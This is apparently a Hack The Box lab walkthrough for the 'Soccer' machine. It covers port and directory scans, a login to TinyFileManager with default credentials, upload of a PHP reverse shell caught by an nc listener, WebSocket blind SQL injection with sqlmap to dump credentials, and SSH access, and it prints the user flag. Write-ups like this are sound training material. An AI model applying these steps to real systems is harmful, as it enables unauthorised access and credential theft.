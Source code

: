 # Reconnaissance

## Port Scan (nmap)

**Command:**\
*sudo nmap -sC -sV -O -v -T4 -p- {IP address}*

**Command Description:**\
* -sC : Use default scripts
* -sV Service version
* -O : OS detection
* -v : Verbose
* -T4 : Scan intensity (aggressive), 
* -p- : Scan all ports
* {IP address} - Target host

**Results:**\
TCP Ports Open:
* 22 - SSH
* 80 - HTTP
* 9091 - mltec-xmlmail

**Actions:**\
Edit */etc/hosts* and add the follwing line to display the website correctly on port 80 (HTTP): *{IP address} 	soccer.htb*

## Directory Scan (gobuster)

**Command:**\
*gobuster dir --url http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt*

**Command Description:**
* dir : Directory scan
* --url : Target url
* -w : Directory wordlist

**Results:**\
Directory found: */tiny*

**Actions:**\
Navigate to: *http://soccer.htb/tiny*

## OSINT

**Actions:**\
Search on google for: *tinyfilemanager default credentials*

**Results**\
URL: https://github.com/prasathmani/tinyfilemanager

Default Credentials:\
Username/Password:
* *admin/admin@123*
* *user/12345*

Note: TinyFileManager uses PHP.

## PHP Reverse Shell

**Actions:**\
Create a new file with this php reverse shell script: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php (or any other PHP reverse shell script).\
Edit the file and change the following variables *$ip* (the machine a victim should connect to) and *$port* (the port a victim should connect to).

## Reverse Shell Listener (netcat)

**Command:** *sudo nc -lvnp 9001*

**Command Description:**\
* -l : Listener (listen for incoming connections)
* -v : Verbose
* -n : Numeric only ip addresses (no DNS)
* -p : Port

**Results:**\
Listening for incoming connections on port 9001.


## Account Access

**Actions:**\
Use admin credentials acquired from the *OSINT* phase (*admin/admin@123*) to log into the tinyfilemanger portal *soccer.htb/tiny*

## File Upload

**Actions:**\
Navigate to *tiny* directory and then *uploads* directory and then press upload on the top right corner and choose the previously created modified php reverse shell from the *PHP Reverse Shell* phase.

## Triggering the PHP Reverse Shell

**Actions:**\
Navigate to: http://soccer.htb/tiny/uploads/php-reverse-shell.php

**Results:**\
The PHP reverse shell will trigger and open a shell from the netcat listener that was setup in the *Reverse Shell Listener (netcat)* phase.

## Inside the Shell

Print */etc/hosts* to see if there are other subdomains/hosts *cat* command.

**Command:** *cat /etc/hosts*

**Results:**\
It displays a subdomain *soc-player.soccer.htb* that could be accessed.

## Navigating the New Domain

Add the subdomain *soc-player.soccer.htb* to your machine hosts file and then access the domain in the browser.
The page will display and then nagivate to "Signup" and create an account and login using the credentials.

By viewing the source code of the ticket system, and scrolling to the bottom we can see that there is a variable thats using WebSocket *var ws = new WebSocket(ws://soc-player.soccer.htb:9091");*. After searching for websocket vulnerabilities we stumble upon this link: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html which contains information on how to perform a Automated Blind SQL injection over WebSocket.

Create a new python file and copy paste the code provided in the link.
In the code, change the *ws_server* variable to the same url as the url found in the the source code of the ticket system.
Also change the "data" variable from *employeeID* to just *id* and then save.

## Running the SQL Injection Script

Run the python script/file which will create a MiddleWare Server.

**Command:** *python3 [filename].py*

**Results:**\
Displays information about sending payloads in http://localhost:/?id=* 

## Using SQL To Find Information (sqlmap)

Use *sqlmap* and type the following command to recieve database information using the url.
Note: it might take some time.

**Command:** *sqlmap -u "http://localhost:8081/?id=1" --batch --dbs*

**Results:**\
Databases will be displayed with *soccer_db* being the interesting one.

Use *sqlmap* and use the following command which uses the database *soccer_db* we acquired to dump the database.

**Command:** *sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables -T accounts -C username,password --dump*

**Command Description:**\
* -D : Query the specified database
* --tables : List tables
* -T : Quuery specified table
* -C : Query specified columns
* --dump : Dump the queried information

**Results:**\
A entry with username and password will be displayed.\
Username: player\
Password: PlayerOftheMatch2022

## SSHing Into the User Found In the Database

Use SSH with the username and password from the previous section to access the user.
The user will have the user flag.

Navgivate to the tmp directory and download *linpeas* and then run the linpeas script and wait until the user and system have been enumerated for vulnerabilities.

# Goals

* USER Flag: 73a57d7e814d39476159dbcb83f6694c
* ROOT Flag:











